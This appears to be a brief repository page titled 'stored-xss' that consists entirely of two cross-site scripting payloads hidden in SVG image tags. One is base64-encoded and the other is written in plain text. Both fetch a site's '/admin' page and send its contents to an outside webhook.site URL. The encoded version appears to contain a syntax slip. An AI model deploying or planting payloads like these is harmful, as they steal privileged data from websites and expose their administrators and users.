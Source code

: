 # stored-xss

<img src="data:image/svg+xml;base64,PHN2ZyB4bWxucz0naHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmcnIHZpZXdCb3g9JzAgMCAxMDAgMTAwJz48c2NyaXB0PmZldGNoKCcvYWRtaW4nKS50aGVuKHIgPT4gci50ZXh0KCkpLnRoZW4oZSA9PiB7ZmV0Y2gnKCdodHRwczovL3dlYmhvb2suc2l0ZS9kMDgyMmZhNC03MThlLTQxMTctOTMwMC1iYTVjOGRlNzEwZDcnLHttZXRob2Q6J1BPU1QnLG1vZGU6J25vLWNvcnMnLGJvZHk6YXRvYihlKX0pfTwvc2NyaXB0Pjwvc3ZnPg==" />


<img src="data:image/svg+xml,<svg xmlns='http://www.w3.org/2000/svg'><script>fetch('/admin').then(r=>r.text()).then(f=>fetch('https://webhook.site/d0822fa4-718e-4117-9300-ba5c8de710d7',{method:'POST',body:f}))</script></svg>">
